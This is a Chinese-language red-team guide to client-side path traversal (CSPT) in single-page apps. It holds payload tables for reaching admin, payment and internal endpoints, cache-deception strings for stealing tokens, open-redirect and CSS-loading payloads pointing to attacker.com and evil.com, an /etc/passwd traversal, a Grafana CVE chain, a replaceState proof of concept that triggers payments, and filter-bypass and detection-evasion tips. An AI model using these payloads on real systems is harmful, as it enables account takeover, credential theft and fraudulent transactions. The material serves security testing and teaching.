


# 客户端路径遍历 (CSPT)

---

# 0x01 核心原理与技术本质

## 1.1 定义与攻击面

### 1.1.1 本质

客户端路径遍历 (CSPT) 是指 **通过操纵 URL 路径参数**，使前端应用在不知情的情况下向同一源的 **非预期端点** 发起经认证的请求。与传统路径遍历不同，CSPT：

- 不直接访问服务器文件系统
- **依赖前端路由逻辑缺陷**
- 通过受害者浏览器作为代理发起请求
- 天然具备 **OSRF (On-Site Request Forgery)** 特性

> **关键点**：攻击成功关键在于 **前端路由逻辑** 与 **后端端点保护机制** 的不一致性。当 URL 参数被前端直接拼接到 API 请求路径而缺乏验证时，产生 CSPT 窗口。

---

## 1.2 技术实现机制

### 1.2.1 攻击向量三要素

| 组件                | 说明               | 红队关注点                   |
| ------------------- | ------------------ | ---------------------------- |
| **源 (Source)**     | 攻击者可控的输入点 | 路由参数、存储值、UI 小部件  |
| **传输 (Transfer)** | 前端处理逻辑       | 拼接路径、自动添加认证头     |
| **目标 (Sink)**     | 请求实际抵达的端点 | 敏感 API、代理端点、缓存资源 |

### 1.2.2 请求链对比



> **本质区别**：
>
> - 传统 WAF/ACL 仅检查 **初始请求**
> - CSPT 攻击发生在 **前端执行环境**，绕过所有服务器端防护

---

# 0x02 攻击技术矩阵与分类

## 2.1 源 (Source) 类型深度分析

### 2.1.1 高价值攻击源分类

| 源类型       | 技术特征                                       | 挖掘优先级 | 绕过潜力 |
| ------------ | ---------------------------------------------- | ---------- | -------- |
| **路由参数** | React Router/Next.js 动态路由、Vue Router 参数 | ★★★★★      | 极高     |
| **存储值**   | 配置文件 slug、文档 ID、IndexedDB 数据         | ★★★★☆      | 高       |
| **UI 交互**  | 下载按钮、图片库、富文本编辑器                 | ★★★☆☆      | 中高     |
| **功能特性** | 国际化路径、主题切换参数、A/B 测试 ID          | ★★☆☆☆      | 中       |

> **实战要点**：
>
> - 优先测试 `/profile/:id`、`/docs/:slug` 类动态路由
> - 检查 `history.state` 是否包含用户控制的路径片段
> - 监控服务工作线程 (Service Worker) 的 fetch 事件处理

---

## 2.2 目标 (Sink) 利用场景

### 2.2.1 高危目标类型

| 目标类别     | 利用场景                                 | 演示 Payload                            |
| ------------ | ---------------------------------------- | --------------------------------------- |
| **API 代理** | 绕过后端保护<br>（例：`/api/v1/` 代理）  | `?resource=../../admin/users`           |
| **前端路由** | 操控路由状态<br>（例：`pushState()`）    | `#/../../reset-password`                |
| **资源加载** | CSS/JS 路径操纵<br>（例：`<link>` 生成） | `?theme=../../.well-known/security.txt` |
| **认证流程** | 覆盖登录/重置流程                        | `?next=../../payment/approve`           |

### 2.2.2 重要观察

- **前端 API 包装器** 自动添加认证头（如 JWT、Cookie）
- **缓存友好扩展名**（.css、.json）触发 CDN 缓存机制
- **动词覆盖参数**（`_method=POST`）改变请求方法

---

# 0x03 攻击链构建与实战影响

## 3.1 核心攻击链矩阵

### 3.1.1 攻击链拓扑

| 基础攻击链            | 潜在升级路径      | 业务影响           |
| --------------------- | ----------------- | ------------------ |
| CSPT → CSRF           | 覆盖关键 API 端点 | 账户接管、资金转移 |
| CSPT → 缓存欺骗       | 窃取认证响应      | 大规模账户接管     |
| CSPT → 开放重定向     | 跳转到 XSS/SSRF   | 跨域攻击、内网探测 |
| CSPT → 服务端路径遍历 | 利用代理后端缺陷  | 服务器文件读取     |

> **关键点**：单个 CSPT 漏洞可能串联多个低危漏洞，形成高危攻击链。

---

## 3.2 高价值攻击场景详解

### 3.2.1 CSPT → CSRF 组合攻击

**技术原理**：
通过 CSPT 操控前端发起的 API 路径，使其指向敏感操作端点（如 `/payments/approve`），而请求自动携带用户会话凭证。

**攻击链示例**：

```http
GET /transfer?target=../../../payments/approve HTTP/1.1
Host: bank.example.com
Cookie: session=valid_token
```

1. 用户点击恶意链接
2. 前端解析参数构造 `fetch('/api/v1/../../../payments/approve')`
3. 浏览器向 `/payments/approve` 发送带凭证的 POST 请求
4. 银行系统执行未经授权的转账

> **红队结论**：当目标存在 CSRF 防护但 **仅验证初始请求** 时，此组合攻击成功率极高。结合 [CSRF 检查清单](csrf-cross-site-request-forgery.md) 进行系统性测试。

---

### 3.2.2 CSPT → 缓存欺骗/投毒

**技术原理**：
利用 CDN 对静态资源路径的缓存逻辑，将敏感 API 响应缓存为公共资源。

**攻击流程**：

1. 发现前端将用户参数拼接到 API 路径：`/api/v1/docs/${userInput}`
2. 构造请求：`/api/v1/docs/../../../v1/token.css`
3. CDN 识别 `.css` 后缀，认为是静态资源并缓存响应
4. 攻击者匿名访问 `/api/v1/docs/../../../v1/token.css` 获取受害者 token

**CDN 响应特征检测**：

```http
HTTP/1.1 200 OK
Content-Type: application/json
Cache-Control: public, max-age=3600  <!-- 危险信号 -->
X-Cache: Hit  <!-- 表明已缓存 -->
```

> **关键技巧**：
>
> - 优先测试 `.css`、`.json`、`.js` 等静态扩展名
> - 观察响应头是否包含 `Cache-Control: public`
> - 使用 Burp 中的 `Compare Responses` 功能验证缓存行为差异

---

### 3.2.3 CSPT → 开放重定向 → XSS/SSRF

**组合攻击链**：



**实战案例（Grafana CVE-2025-4123）**：

```http
https://grafana.example.com/public/plugins/../../../../..//evil.com/poc/module.js
```

- 插件加载路径遍历 → 触发开放重定向 → 执行远程 JS
- 当 Image Renderer 插件启用时 → 转为 SSRF 攻击内网系统

---

# 0x04 漏洞挖掘方法论

## 4.1 系统化测试流程

### 4.1.1 被动发现阶段

| 步骤             | 工具/技术                      | 输出                 |
| ---------------- | ------------------------------ | -------------------- |
| **参数收集**     | 浏览应用，记录所有动态路由参数 | 潜在源参数列表       |
| **流量分析**     | Burp Proxy + CSPT Burp 插件    | 反射参数与请求关联图 |
| **双重解码检测** | 搜索 `/%252e%252e/` 模式       | 路由层规范化线索     |
| **静态分析**     | 查看 SPA 源码中的路由处理逻辑  | 漏洞模式确认         |

> **CSPT Burp 插件关键操作**：
>
> 1. 设置 `Source Scope` 为客户端参数（如 `id`, `slug`）
> 2. 配置 `Sink Methods` 为 `GET, POST, DELETE`
> 3. 导出含 canary token 的 PoC 进行批量验证

---

### 4.1.2 主动探测阶段

**前端运行时监控技术**：

```javascript
// 监控 fetch API 调用
(() => {
  const origFetch = window.fetch;
  window.fetch = async function(input, init) {
    // 检测路径遍历特征
    if (typeof input === "string" && /\.\.\//.test(input)) {
      console.log("[CSPT 候选]", input, init?.method || "GET");
      // 可选：触发断点便于调试
      // debugger;
    }
    return origFetch.apply(this, arguments);
  };

  // 监控 XHR
  const origOpen = XMLHttpRequest.prototype.open;
  XMLHttpRequest.prototype.open = function(method, url) {
    if (/\.\.\//.test(url)) {
      console.log("[CSPT 候选 XHR]", method, url);
    }
    return origOpen.apply(this, arguments);
  };
})();
```

**操作指南**：

1. 将代码粘贴至浏览器 DevTools 控制台
2. 与应用交互，观察控制台输出
3. 重点关注 `init.credentials === "include"` 的请求（携带会话凭证）

> **高级技巧**：
>
> - 修改 `localStorage`/`IndexedDB` 中的路由状态
> - 检查服务工作线程 (Service Worker) 对 fetch 事件的处理
> - 使用 `history.pushState()` 手动触发路由变化

---

## 4.2 工具链整合

### 4.2.1 漏洞挖掘工具矩阵

| 工具                                                         | 功能                                 | 红队价值 |
| ------------------------------------------------------------ | ------------------------------------ | -------- |
| **[CSPTBurpExtension](https://github.com/doyensec/CSPTBurpExtension)** | 自动关联源/目标，生成 PoC            | ★★★★★    |
| **[Eval-Villain](https://addons.mozilla.org/en-US/firefox/addon/eval-villain/)** | 监控数据流，检测潜在 CSPT            | ★★★★☆    |
| **[CSPTPlayground](https://github.com/doyensec/CSPTPlayground)** | 本地复现攻击链                       | ★★★★☆    |
| **CSPT Docker 环境**                                         | `docker compose up` 快速搭建测试环境 | ★★★☆☆    |

> **操作建议**：
>
> 1. 使用 CSPTBurpExtension 扫描代理历史
> 2. 用 Eval-Villain 验证数据流
> 3. 在 Playground 中演练攻击链

---

# 0x05 实战 Payload 速查表

## 5.1 基础路径遍历 Payload

### 5.1.1 场景分类

| 场景           | Payload                     | 技术原理              | 适用性   |
| -------------- | --------------------------- | --------------------- | -------- |
| **基础遍历**   | `?doc=../../v1/admin/users` | 直接替换路径          | 广泛     |
| **双重编码**   | `?file=%2e%2e%2fsecret`     | 绕过前端简单过滤      | 高       |
| **混合编码**   | `?api=..%2f..%2fadmin`      | 针对 URL 解码实现差异 | 中高     |
| **UTF-8 混淆** | `?res=.../../conf`          | 非标准 Unicode 字符   | 特定框架 |

> **关键点**：
>
> - 当 CDN 启用 **基于扩展名的缓存** 时，追加 `.css`、`.json` 可触发缓存
> - 示例：`?file=../../v1/token.css` → CDN 缓存认证响应

---

## 5.2 高级攻击链 Payload

### 5.2.1 攻击目标分类

| 攻击目标           | 完整 Payload 示例                                            | 执行效果               |
| ------------------ | ------------------------------------------------------------ | ---------------------- |
| **CSRF 触发**      | `?action=../../payments/approve/.json&_method=POST`          | 将 GET 转为 POST 请求  |
| **缓存欺骗**       | `?data=../../../../v1/secret.json.css`                       | 将 JSON 响应缓存为 CSS |
| **开放重定向**     | `?next=..%2f..%2flogin/callback/%3FreturnUrl=https://attacker.com/xss` | 操控重定向链           |
| **服务端路径遍历** | `?proxy=../../../etc/passwd`                                 | 如果存在代理端点       |

### 5.2.2 XSS 组合案例

```html
<!-- 利用 CSPT 加载恶意 CSS -->
<link rel="stylesheet" href="/styles?theme=../../..//attacker.com/malicious.css">
```

- 当前端使用 CSS-in-JS 库时，可触发 `@import url()` 加载外部资源
- 结合开放重定向实现任意域 CSS 加载

---

# 0x06 实战案例深度分析

## 6.1 账户接管实战（Cache Deception + CSPT）

**攻击流程**：

1. 发现：`/user/docs?file=${userInput}` 用于加载文档

2. 测试：`/user/docs?file=../../../v1/token.css`

   - CDN 响应 `200 OK` 且 `Cache-Control: public`

3. 构造钓鱼链接：

   ```http
   https://app.example.com/user/docs?file=../../../v1/token.css
   ```

4. 受害者访问后，CDN 缓存包含 token 的 JSON 响应

5. 攻击者匿名访问同一 URL 获取 token → 账户接管

> **检测要点**：
>
> - 观察响应头 `X-Cache: MISS`→`X-Cache: HIT`
> - 验证 `.css` 扩展名下的 JSON 内容是否被缓存
> - 使用新会话验证缓存是否公开可访问

---

## 6.2 Grafana CVE-2025-4123 深度分析

**漏洞点**：
插件资产加载路径处理缺陷：

```javascript
// 漏洞代码片段
const pluginUrl = `/public/plugins/${pluginId}/module.js`;
fetch(pluginUrl); // 未验证 pluginId
```

**攻击链**：

1. 路径遍历：`/public/plugins/../../../../..//evil.com/poc/module.js`
2. 触发开放重定向（Grafana 内建功能）
3. 执行外部 JS → XSS
4. **高级利用**：若启用 Image Renderer 插件 → SSRF 攻击内网

**SSRF 触发点**：

```http
GET /render HTTP/1.1
Host: internal.grafana
...
url=http://internal.host/admin  <!-- 由 CSPT 控制 -->
```

> **红队启示**：
>
> - 特别关注 **插件/扩展** 相关的路径处理
> - 检查 **匿名仪表板** 功能与资产加载的交互
> - 当系统存在 **渲染服务** 时，CSPT 可升级为 SSRF

---

## 6.3 CSPT → CSRF 组合攻击技术

**技术要点**：

1. 监控所有可控数据：

   - URL 路径/参数/片段
   - 数据库存储值
   - 前端状态（localStorage）

2. 追踪这些数据流向的请求

   - 特别关注带 `credentials: "include"` 的 fetch 调用

3. 构建最小化 PoC 验证：

   ```javascript
   // 示例：篡改支付请求
   history.replaceState(null, '', '/#/../../payments/approve?amount=10000');
   // 前端自动触发支付请求
   ```

**实战验证**：

- 使用 [Eval-Villain 浏览器扩展](https://addons.mozilla.org/en-US/firefox/addon/eval-villain/)
- 结合 [CSPTPlayground](https://github.com/doyensec/CSPTPlayground) 本地测试

---

# 0x07 红队行动指南

## 7.1 漏洞挖掘优先级

### 7.1.1 阶段划分

| 阶段            | 操作                     | 预期耗时 | 成功率 |
| --------------- | ------------------------ | -------- | ------ |
| **1. 指纹识别** | 确认目标使用 SPA 框架    | 5 分钟   | 90%    |
| **2. 参数测绘** | 记录所有动态路由参数     | 15 分钟  | 100%   |
| **3. 编码测试** | 测试 `../`, `%2e%2e/` 等 | 10 分钟  | 60%    |
| **4. 缓存检测** | 添加 `.css` 测试缓存     | 5 分钟   | 30%    |
| **5. 组合验证** | 构建完整攻击链           | 20 分钟  | 15%    |

> **关键提示**：
>
> - 每个动态路由参数都是潜在攻击点
> - 优先测试 **编辑/删除/支付** 类功能路径
> - **非敏感功能** 常是突破口（如文档查看、主题切换）

---

## 7.2 高回报攻击路径

### 7.2.1 攻击场景分类

| 攻击场景          | 红队操作                                    | 预期影响       |
| ----------------- | ------------------------------------------- | -------------- |
| **管理接口访问**  | `?page=../../../../admin/settings`          | 越权访问       |
| **API 密钥泄露**  | `?res=../../../v1/keys.json.css`            | 大规模数据泄露 |
| **密码重置劫持**  | `?next=../../password/reset?token=attacker` | 账户接管       |
| **内部 API 探测** | `?api=../../../internal/status`             | 内网资产测绘   |

### 7.2.2 快速验证步骤

1. 识别目标 API 基础路径（如 `/api/v1/`）
2. 构造遍历请求：`?param=../../../internal/config`
3. 观察响应：
   - `403`：目标存在但无权访问（有希望）
   - `200`：可能触发缓存欺骗
   - `500`：后端路径拼接错误（确认漏洞存在）

---

## 7.3 绕过防御增强技巧

### 7.3.1 防御措施与绕过

| 防御措施         | 绕过技巧            | 有效载荷示例                 |
| ---------------- | ------------------- | ---------------------------- |
| **前端验证**     | 双重编码 + 特殊字符 | `%2e%2e%2f%2e%2e%2fadmin`    |
| **CDN 缓存限制** | 组合扩展名          | `../../../v1/token.json.css` |
| **路径规范化**   | UTF-8 混淆字符      | `..｡/｡./internal`            |
| **WAF 检测**     | 拆分遍历序列        | `..%2f..%2fadmin`            |

> **终极技巧**：
> 当常规 `../` 被过滤时，尝试 **矩阵参数**：
> `/path;param=../../secret` → 某些框架会将其解析为 `/secret`

---

# 0x08 关键结论与防御对抗策略

## 8.1 漏洞存在性判断标准

### 8.1.1 确认信号

| 确认信号         | 说明                                       | 置信度 |
| ---------------- | ------------------------------------------ | ------ |
| **响应结构变化** | 添加 `../` 后响应 JSON 结构变化            | ★★★★☆  |
| **缓存头变化**   | 添加 `.css` 后出现 `Cache-Control: public` | ★★★★★  |
| **错误类型变化** | 从 `404` 变为 `403`                        | ★★★★   |
| **请求路径记录** | 后端日志显示接收完整遍历路径               | ★★★★★  |

> **红队结论**：
> **单个 CSPT 漏洞本身可能无直接危害，但当与缓存机制或弱认证 API 结合时，可升级为高危攻击**。重点排查：
>
> 1. 允许匿名访问的 **高权限 API**
> 2. **扩展名决定缓存行为** 的 CDN 配置
> 3. 存在 **开放重定向** 的同一源端点

---

## 8.2 最佳实践

### 8.2.1 必做检查项

1. **测试所有动态路由参数** 是否被拼接到 API 请求
2. **验证缓存行为**：追加 `.css` 后观察响应变化
3. **监控前端网络请求**，检查 `../` 是否被规范化
4. **构建最小化 PoC**：`?p=../../../internal/status`

### 8.2.2 高效利用策略

- **缓存欺骗优先**：相比直接利用，缓存欺骗成功率更高、影响范围更广
- **组合开放重定向**：形成从 CSPT → 重定向 → XSS 的攻击链
- **利用非敏感端点**：即使 `/internal/status` 返回错误，也可能泄露路径信息

### 8.2.3 规避检测技巧

- **使用真实用户路径片段**：`/user/../admin` 比 `/../../admin` 更隐蔽
- **分散测试流量**：通过不同路径变体测试同一漏洞
- **控制 payload 大小**：避免触发异常请求检测

> **终极提示**：
> **CSPT 是现代 SPA 架构中被严重低估的攻击面**。与传统 WAF 防护完全错位，使其成为突破纵深防御的 "隐形通道"。在测试中始终关注：**前端如何构建后续请求的 URL**，而非仅分析初始请求。

---

## 附录：关键资源与工具

| 类型     | 资源                                                         | 用途              |
| -------- | ------------------------------------------------------------ | ----------------- |
| **工具** | [CSPT Burp 插件](https://github.com/doyensec/CSPTBurpExtension) | 自动化源/目标关联 |
| **学习** | [CSPT Playground](https://github.com/doyensec/CSPTPlayground) | 本地环境演练      |
| **案例** | [Cache Deception + CSPT ATO 案例](https://zere.es/posts/cache-deception-cspt-account-takeover/) | 实战参考          |
| **技术** | [Matan Berson CSPT 详解](https://matanber.com/blog/cspt-levels/) | 深度技术分析      |
| **检测** | Eval-Villain 浏览器扩展                                      | 实时监控数据流    |